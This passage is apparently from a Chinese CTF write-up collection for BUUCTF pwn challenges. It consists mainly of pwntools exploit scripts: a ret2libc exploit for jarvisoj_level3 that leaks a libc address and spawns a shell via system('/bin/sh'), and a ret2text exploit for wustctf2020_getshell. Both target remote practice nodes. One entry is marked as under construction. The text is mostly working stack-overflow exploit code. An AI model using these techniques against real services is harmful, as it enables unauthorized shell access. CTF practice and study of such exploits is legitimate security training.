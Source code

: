 ```python
r.interactive()
```

## 30 jarvisoj_level3

***ret2libc***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc-2.19.so")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28662)
def dbg():
    gdb.attach(p)
    pause()
write_plt = elf.plt['write']
write_got = elf.got['write']
main = elf.sym['main']
payload = b'b'*0x88+b'b'*0x4+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(0x4)
p.recvuntil('Input:\n')
p.sendline(payload)
write_addr = u32(p.recv(4))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
log.info("libc_base:"+hex(libc_base))

sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload = b'b'*0x88+b'b'*0x4+p32(sys)+p32(0)+p32(binsh)
p.sendline(payload)
p.interactive()
```

## 31 ciscn_2019_s_3

施工中......

## 32 wustctf2020_getshell

***ret2text***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25069)
def dbg():
    gdb.attach(p)
    pause()

payload = b'b'*0x18+b'b'*0x4+p32(0x8048524)
p.sendline(payload)
p.interactive()
```